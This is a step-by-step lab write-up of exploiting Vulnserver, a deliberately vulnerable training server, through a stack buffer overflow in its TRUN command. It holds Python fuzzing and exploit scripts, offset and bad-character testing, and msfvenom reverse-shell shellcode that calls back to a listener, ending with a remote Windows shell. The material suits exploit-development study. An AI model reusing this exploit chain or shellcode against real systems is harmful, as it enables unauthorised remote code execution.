

## Vulnserver

### info

[http://www.thegreycorner.com/2010/12/introducing-vulnserver.html](http://www.thegreycorner.com/2010/12/introducing-vulnserver.html)

> why something different ?

because buffer overflows are really my weak point and if i document this it will help me and maybe someone out there too.

### setup

i built a 32bit windows 7 box in vmware fusion just for this purpose, however i'm sure that another setup could be used.


### being an end user

connecting to the server shows the following

```
$ ncat 192.168.93.141 9999
Welcome to Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
STATS [stat_value]
RTIME [rtime_value]
LTIME [ltime_value]
SRUN [srun_value]
TRUN [trun_value]
GMON [gmon_value]
GDOG [gdog_value]
KSTET [kstet_value]
GTER [gter_value]
HTER [hter_value]
LTER [lter_value]
KSTAN [lstan_value]
EXIT
```

from that i know to terminate the connection i need to type in `EXIT`

trying some commands it seems i need a space after the command and a `.` if i want to add anything after the space

### fuzzing

i dont know the vulnerable command so i'll have the first argument of the script where i can send that command.

```python
#!/usr/bin/python

import sys
import socket

buffer=["A"]
counter=100

while len(buffer) <= 100:
    buffer.append("A"*counter)
    counter=counter+200

    for string in buffer:
        print "Fuzzing vulnserver with %s bytes" % len(string)
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect(('192.168.93.141',9999))
        s.recv(1024)
        s.send(sys.argv[1]+" ."+string)
        s.recv(1024)
        s.send('EXIT\r\n')
        s.close()
```

its not `STATS`

```
--snip--

Fuzzing vulnserver with 5700 bytes
Fuzzing vulnserver with 5900 bytes
Fuzzing vulnserver with 6100 bytes
Fuzzing vulnserver with 6300 bytes
Fuzzing vulnserver with 6500 bytes
Fuzzing vulnserver with 6700 bytes
Fuzzing vulnserver with 6900 bytes
Fuzzing vulnserver with 7100 bytes
Fuzzing vulnserver with 7300 bytes
Fuzzing vulnserver with 7500 bytes
Fuzzing vulnserver with 7700 bytes
Fuzzing vulnserver with 1 bytes
Fuzzing vulnserver with 100 bytes
Fuzzing vulnserver with 300 bytes
Fuzzing vulnserver with 500 bytes
Fuzzing vulnserver with 700 bytes
Fuzzing vulnserver with 900 bytes
Fuzzing vulnserver with 1100 bytes
Fuzzing vulnserver with 1300 bytes
Fuzzing vulnserver with 1500 bytes
Fuzzing vulnserver with 1700 bytes
Fuzzing vulnserver with 1900 bytes
Fuzzing vulnserver with 2100 bytes

--snip--
```

not `RTIME`

```
--snip--

Fuzzing vulnserver with 1900 bytes
Fuzzing vulnserver with 2100 bytes
Fuzzing vulnserver with 2300 bytes
Fuzzing vulnserver with 2500 bytes
Fuzzing vulnserver with 2700 bytes
Fuzzing vulnserver with 2900 bytes
Fuzzing vulnserver with 3100 bytes
Fuzzing vulnserver with 3300 bytes
Fuzzing vulnserver with 3500 bytes
Fuzzing vulnserver with 3700 bytes
Fuzzing vulnserver with 3900 bytes
Fuzzing vulnserver with 4100 bytes
Fuzzing vulnserver with 4300 bytes
Fuzzing vulnserver with 4500 bytes
Fuzzing vulnserver with 1 bytes
Fuzzing vulnserver with 100 bytes
Fuzzing vulnserver with 300 bytes
Fuzzing vulnserver with 500 bytes
Fuzzing vulnserver with 700 bytes
Fuzzing vulnserver with 900 bytes
Fuzzing vulnserver with 1100 bytes
Fuzzing vulnserver with 1300 bytes
Fuzzing vulnserver with 1500 bytes
Fuzzing vulnserver with 1700 bytes
Fuzzing vulnserver with 1900 bytes
Fuzzing vulnserver with 2100 bytes
Fuzzing vulnserver with 2300 bytes
Fuzzing vulnserver with 2500 bytes

--snip--
```

not `LTIME`

```
--snip--

Fuzzing vulnserver with 2100 bytes
Fuzzing vulnserver with 1 bytes
Fuzzing vulnserver with 100 bytes
Fuzzing vulnserver with 300 bytes
Fuzzing vulnserver with 500 bytes
Fuzzing vulnserver with 700 bytes
Fuzzing vulnserver with 900 bytes
Fuzzing vulnserver with 1100 bytes
Fuzzing vulnserver with 1300 bytes
Fuzzing vulnserver with 1500 bytes
Fuzzing vulnserver with 1700 bytes
Fuzzing vulnserver with 1900 bytes
Fuzzing vulnserver with 2100 bytes
Fuzzing vulnserver with 2300 bytes
Fuzzing vulnserver with 1 bytes
Fuzzing vulnserver with 100 bytes
Fuzzing vulnserver with 300 bytes
Fuzzing vulnserver with 500 bytes
Fuzzing vulnserver with 700 bytes

--snip--
```

not `SRUN`

```
--snip--

Fuzzing vulnserver with 1500 bytes
Fuzzing vulnserver with 1700 bytes
Fuzzing vulnserver with 1900 bytes
Fuzzing vulnserver with 1 bytes
Fuzzing vulnserver with 100 bytes
Fuzzing vulnserver with 300 bytes
Fuzzing vulnserver with 500 bytes
Fuzzing vulnserver with 700 bytes
Fuzzing vulnserver with 900 bytes
Fuzzing vulnserver with 1100 bytes
Fuzzing vulnserver with 1300 bytes
Fuzzing vulnserver with 1500 bytes
Fuzzing vulnserver with 1700 bytes
Fuzzing vulnserver with 1900 bytes
Fuzzing vulnserver with 2100 bytes
Fuzzing vulnserver with 1 bytes
Fuzzing vulnserver with 100 bytes
Fuzzing vulnserver with 300 bytes
Fuzzing vulnserver with 500 bytes
Fuzzing vulnserver with 700 bytes
Fuzzing vulnserver with 900 bytes
Fuzzing vulnserver with 1100 bytes

--snip--
```


looks like its `TRUN`

```
--snip--

Fuzzing vulnserver with 4500 bytes
Fuzzing vulnserver with 4700 bytes
Fuzzing vulnserver with 4900 bytes
Fuzzing vulnserver with 5100 bytes
Fuzzing vulnserver with 5300 bytes
Fuzzing vulnserver with 5500 bytes
Fuzzing vulnserver with 5700 bytes
Fuzzing vulnserver with 5900 bytes
Fuzzing vulnserver with 6100 bytes
Fuzzing vulnserver with 6300 bytes
Fuzzing vulnserver with 1 bytes
Fuzzing vulnserver with 100 bytes
Fuzzing vulnserver with 300 bytes
Fuzzing vulnserver with 500 bytes
Fuzzing vulnserver with 700 bytes
Fuzzing vulnserver with 900 bytes
Fuzzing vulnserver with 1100 bytes
Fuzzing vulnserver with 1300 bytes
Fuzzing vulnserver with 1500 bytes
Fuzzing vulnserver with 1700 bytes
Fuzzing vulnserver with 1900 bytes
Fuzzing vulnserver with 2100 bytes

--snip--
```



as part of the fuzzing process i now know the length of the buffer is `2100`.

successful crash code

```python
#!/usr/bin/python

import socket

buffer = "A" * 2100

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.93.141',9999))
s.recv(1024)
s.send("TRUN ."+buffer)
s.recv(1024)
s.send('EXIT\r\n')
s.close()

```

### controlling the EIP

creating a unique pattern

`ruby /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100`

```python
#!/usr/bin/python

import socket

buffer =" Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9"

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.93.141',9999))
s.recv(1024)
s.send("TRUN ."+buffer)
s.recv(1024)
s.send('EXIT\r\n')
s.close()
```

using that pattern and crashing the program the EIP register is at value `396F4338`, using pattern_offset i know how much space i have to play with


```
ruby /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 396F4338 -l 2100
[*] Exact match at offset 2006
```

now if my maths is right the EIP should show `42424242` per the following code

```python
#!/usr/bin/python

import socket

#crash at 2100
buffer = "A" * 2006 + "B" * 4 + "C" * 90

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.93.141',9999))
s.recv(1024)
s.send("TRUN ."+buffer)
s.recv(1024)
s.send('EXIT\r\n')
s.close()
```

and look at that is does


from this i can confrim i can control the EIP value

### badchars

bad characters can cause errors in our shell code later, so lets find them. the easiest way for me to do this is just send them all and see if any missing later in the debugger.

code to do this

```python
#!/usr/bin/python

import socket

#crash at 2100

badchars = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0A\x0B\x0C\x0D\x0E\x0F\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1A\x1B\x1C\x1D\x1E\x1F\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2A\x2B\x2C\x2D\x2E\x2F\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3A\x3B\x3C\x3D\x3E\x3F\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4A\x4B\x4C\x4D\x4E\x4F\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5A\x5B\x5C\x5D\x5E\x5F\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6A\x6B\x6C\x6D\x6E\x6F\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7A\x7B\x7C\x7D\x7E\x7F\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8A\x8B\x8C\x8D\x8E\x8F\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9A\x9B\x9C\x9D\x9E\x9F\xA0\xA1\xA2\xA3\xA4\xA5\xA6\xA7\xA8\xA9\xAA\xAB\xAC\xAD\xAE\xAF\xB0\xB1\xB2\xB3\xB4\xB5\xB6\xB7\xB8\xB9\xBA\xBB\xBC\xBD\xBE\xBF\xC0\xC1\xC2\xC3\xC4\xC5\xC6\xC7\xC8\xC9\xCA\xCB\xCC\xCD\xCE\xCF\xD0\xD1\xD2\xD3\xD4\xD5\xD6\xD7\xD8\xD9\xDA\xDB\xDC\xDD\xDE\xDF\xE0\xE1\xE2\xE3\xE4\xE5\xE6\xE7\xE8\xE9\xEA\xEB\xEC\xED\xEE\xEF\xF0\xF1\xF2\xF3\xF4\xF5\xF6\xF7\xF8\xF9\xFA\xFB\xFC\xFD\xFE\xFF"

buffer = "A" * 2006 + badchars

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.93.141',9999))
s.recv(1024)
s.send("TRUN ."+buffer)
s.recv(1024)
s.send('EXIT\r\n')
s.close()
```

looking at the debugger we see there are no bad chars other than '\x00' (note i'm not the best at this and i could have missed some ;) )


### finding return address

i need to find a `JMP ESP` to use as my return address.

i think ( and i say i think) i've found one at `75E24E73` but because its a little-endian CPU that will be used like `\x73\x4E\xE2\x75`


`F2` in immunity debugger to set the JMP ESP as a breakpoint and then run the following code

```python
#!/usr/bin/python

import socket

#crash at 2100
buffer = "A" * 2006 + "\x73\x4E\xE2\x75" + "C" * 90

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.93.141',9999))
s.recv(1024)
s.send("TRUN ."+buffer)
s.recv(1024)
s.send('EXIT\r\n')
s.close()
```

and it looks like it hits the breakpoint so i guess this is right


### shellcode

using `msfvenom` to generate a reverse shell

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.93.128 LPORT=443 --smallest -f python -v shellcode -b '\x00'`

updated exploit

```python
#!/usr/bin/python

import socket

shellcode =  ""
shellcode += "\x29\xc9\x66\xb9\x43\x01\xe8\xff\xff\xff\xff\xc1"
shellcode += "\x5e\x30\x4c\x0e\x07\xe2\xfa\xfd\xea\x81\x04\x05"
shellcode += "\x06\x67\x81\xec\x3b\xcb\x68\x86\x5e\x3f\x9b\x43"
shellcode += "\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a\x2c"
shellcode += "\xe1\xb3\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28"
shellcode += "\xed\xc9\xde\x7f\x79\xa4\x62\x21\xb9\x79\x08\xbe"
shellcode += "\x7a\x26\x40\xda\x72\x3a\xed\x6c\xb5\x66\x60\x40"
shellcode += "\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2\x7e\xc0\x4d\x9b"
shellcode += "\x7f\xb0\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d\xaf"
shellcode += "\x59\x26\xa4\x66\x23\x7b\x15\x85\x3a\xe8\x3c\x41"
shellcode += "\x67\xb4\x0e\xe2\x66\x20\xe7\x35\x72\x6e\xa3\xfa"
shellcode += "\x76\xf8\x75\xa5\xff\x33\x5c\x5d\x21\x20\x1d\x24"
shellcode += "\x24\x2e\x7f\x61\xdd\xdc\xde\x0e\x94\x6c\x05\xd4"
shellcode += "\xe2\xb8\xbe\x8d\x8e\xe7\xe7\xe2\xa0\xcc\xc0\xfd"
shellcode += "\xda\xe0\xbe\x9e\x65\x4e\x24\x0d\x9f\x9f\xa0\x88"
shellcode += "\x66\xf7\xf4\xcd\x8f\x27\xc3\xa9\x55\x7e\xfc\xfd"
shellcode += "\xfe\xff\xf0\xe1\xf2\xe3\xdc\x5f\xb9\x68\x58\x46"
shellcode += "\x6f\x2c\xd6\xb8\xd6\x7f\x68\x9c\x42\xab\xc6\xc5"
shellcode += "\xc7\x7c\x41\x2f\xa0\xdb\x9a\x9a\xa6\x56\x75\xa5"
shellcode += "\xb3\x2c\x01\x50\x16\xa3\xd4\x26\x94\xd3\xa9\x31"
shellcode += "\xb6\x2f\x55\x43\xb4\x1c\x31\x8d\x85\x8a\x8c\xe9"
shellcode += "\x63\x08\xbb\xba\xb9\xde\x06\x9b\xe0\xaa\xa2\x17"
shellcode += "\x0b\x91\x3f\xbd\xde\xc7\xfd\xfc\x73\xbb\x24\x11"
shellcode += "\xc4\x03\x40\x51\x56\x51\x5e\x5f\x4c\x5d\x42\x5b"
shellcode += "\x58\x5c\x46\x79\x6b\xdf\x2b\x93\xe9\xc2\x91\xf9"
shellcode += "\x54\x4d\x5a\xe2\x2e\x77\x28\xa6\x3f\x43\xdb\xf0"
shellcode += "\x9d\xd7\x9d\x8b\x7c\x43\x8a\xb8\x93\xb2\xcf\xe4"
shellcode += "\x0e\x35\x48\x3f\xb6\xcc\xd8\x4c\x3f\x80\x7b\x2e"
shellcode += "\x4c\x50\x2a\x41\x11\xbc\x91"

#crash at 2100

buffer = "A" * 2006 + "\x73\x4E\xE2\x75" + shellcode

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('192.168.93.141',9999))
s.recv(1024)
s.send("TRUN ."+buffer)
s.recv(1024)
s.send('EXIT\r\n')
s.close()
```

### putting it all together

setting up a listener on port 443

```
root@kali:~# ncat -nlvp 443
Ncat: Version 7.25BETA1 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```

then running the exploit

```
# python ./exploit.py
```

and after

```
Ncat: Connection from 192.168.93.141.
Ncat: Connection from 192.168.93.141:49524.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\user\Downloads\vulnserver>hostname
hostname
vulnserver

C:\Users\user\Downloads\vulnserver>whoami
whoami
vulnserver\user
```
